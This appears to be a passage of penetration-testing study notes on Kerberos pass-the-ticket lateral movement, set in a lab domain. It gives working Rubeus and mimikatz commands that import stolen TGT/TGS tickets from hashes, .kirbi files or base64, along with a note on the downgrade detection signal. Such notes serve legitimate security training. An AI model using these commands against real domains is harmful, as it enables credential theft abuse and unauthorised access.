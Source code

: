 **NOTE:** Mimikatz requires administrative rights, Rubeus doesn't. More [here](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash) 

**Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

## 3. Pass the Ticket (PtT)
Now that we have the ticket, either using mimikatz or Rubeus, we can move laterally.

#### Rubeus

***Use the switch ==/ptt== to submit the ticket (TGT or TGS) to the current logon session in Rubeus***
```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

We should get:
```cmd-session
[+] Ticket successfully imported!
```

==OR== if we already have the ticket, import the .kirbi file exported from mimikatz

```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the attack.

###### Powershell .kirbi to Base64:
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

###### Rubeus Pass the Ticket - Base64
```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

#### Mimikatz - Pass the Ticket
##### Use mimikatz to PtT with .kirbi file
`mimikatz.exe`
`privilege::debug`
`kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.
